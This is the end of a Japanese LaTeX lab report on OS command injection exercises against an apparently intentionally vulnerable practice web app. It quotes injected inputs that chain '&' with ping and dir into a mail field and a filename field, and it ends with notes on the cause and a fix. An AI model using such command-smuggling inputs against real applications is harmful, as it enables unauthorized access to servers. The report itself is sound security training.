  
\includegraphics[scale=0.35]{pic35.png}
  \caption{}
\end{figure}


\section{OSコマンドイジェクション}

\subsection{OSコマンドイジェクションとは}
OSコマンド・インジェクションとは、悪意のあるリクエストにより、ウェブアプリ
ケーションが意図しないOSコマンドを実行してしまうことで、システムに不正に
アクセスされてしまう脆弱性である。この脆弱性が悪用されてしまうとサーバ内の
ファイルが閲覧、改ざん、削除されたり、システムが不正に操作されたりしてしま
う可能性がある。

\subsection{Level1演習}

\subsubsection*{脆弱性の概要および発見演習}
この演習では、メールサービスのTOの部分に脆弱性が存在するので、「\& /windows/system32/ping -n 21 127.0.0.1」
と入力したところ、20秒以上の間レスポンスが帰って来ず、また、帰ってきたレスポンス
は、pingコマンドの出力結果が帰ってきた。これはOSコマンドインジェクションの
脆弱性である。その様子を以下の図32,33に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic31.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic32.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、入力された文字列に対してエスケープ処理が
施されていないことが挙げられる。

\subsection{Level2演習}
この演習では、商品管理ページの変更後ファイル入力欄に「testtest.txt \& /windows/system32/ping -n 10 127.0.0.1」
と入力したところ、レスポンスが10秒以上返ってこなかったため、OSコマンドイジェクション
の脆弱性があると考えられる。そこでファイル名入力欄に「example2.txt \& dir /b c: $\backslash$ 」
と入力したところ、cドライブ直下のファイル名とフォルダ名が出力された。その様子を以下の図34,35
に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic33.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.4]{pic34.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

これが起きる原因として考えられるのは、ユーザが入力した文字列をそのまま
命令として使用していることが考えられる。特に処理においてexec()関数を
使用している場合、引数がそのままshellで実行されるので危険である、今回で
あればrename()関数などを使用すると良いと考えられる。


\end{document}